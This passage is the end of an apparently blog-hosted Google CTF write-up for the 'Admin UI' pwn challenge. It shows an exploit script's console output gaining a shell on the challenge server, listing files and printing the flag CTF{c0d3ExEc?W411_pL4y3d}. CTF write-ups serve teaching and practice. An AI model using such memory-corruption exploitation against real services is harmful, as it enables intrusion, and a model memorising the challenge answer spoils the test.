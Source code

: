 Alright, now that we have everything in place, let's fire off this script and hope for the best!

```console
root@kali:~/Google-CTF/Admin UI# python exp.py 
=== Management Interface ===

 1) Service access
 2) Read EULA/patch notes
 3) Quit

Please enter the backdoo^Wservice password:

! Two factor authentication required !
Please enter secret secondary password:

Authenticated
> 1ABC8aaA
> shell
id
uid=1337(user) gid=1337(user) groups=1337(user)
```

Awesome! We were able to write to the enable shell command memory region and can now execute shell commands!

Let's see if we can't find out flag.

```console
ls -la
total 144
drwxr-xr-x 3 user   user      4096 Oct 24 19:06 .
drwxr-xr-x 3 nobody nogroup   4096 Oct 16 15:10 ..
-rw-r--r-- 1 user   user       220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 user   user      3771 Aug 31  2015 .bashrc
-rw-r--r-- 1 user   user       655 May 16  2017 .profile
-rw-r--r-- 1 nobody nogroup     26 Sep 26 15:44 an0th3r_fl44444g_yo
-rw-r--r-- 1 nobody nogroup     25 Sep 26 15:44 flag
-rwxr-xr-x 1 nobody nogroup 111128 Sep 26 15:44 main
drwxr-xr-x 2 nobody nogroup   4096 Oct 24 19:06 patchnotes
cat an0th3r_fl44444g_yo
CTF{c0d3ExEc?W411_pL4y3d}
```

Finally, we got the flag!

__FLAG:__ CTF{c0d3ExEc?W411_pL4y3d}

## Closing

That's it for the first part of the PWN challenges! The Admin UI challenges were somewhat complex, but weren't overly complicated. If you understood some basic x86 Assembly and the basics on memory corruption issues then you should have been fine!

With that said, I hope you enjoyed this part of the PWN challenges! Stay tuned for Part 2, where we'll cover the final PWN challenges!

Thanks for reading!
